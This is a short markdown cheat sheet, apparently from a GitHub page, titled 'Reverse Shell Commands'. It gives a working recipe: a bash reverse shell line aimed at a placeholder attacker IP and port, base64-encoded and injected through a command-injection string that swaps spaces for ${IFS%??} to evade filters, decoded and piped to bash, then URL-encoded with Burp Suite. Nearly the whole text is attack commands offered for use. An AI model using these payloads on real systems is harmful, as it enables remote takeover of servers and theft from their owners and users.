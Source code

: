 ## Reverse Shell Commands

### Taking Reverse Shell By Sending URL Encoded Payload in the HTTP Request:

1. Encoding the Message into Base64 first!

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

2. Then Putting the Encoded Payload in the following URL Encoded Command:

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

3. Do URL Encode all the Key Character, do this by using Burpsuite.
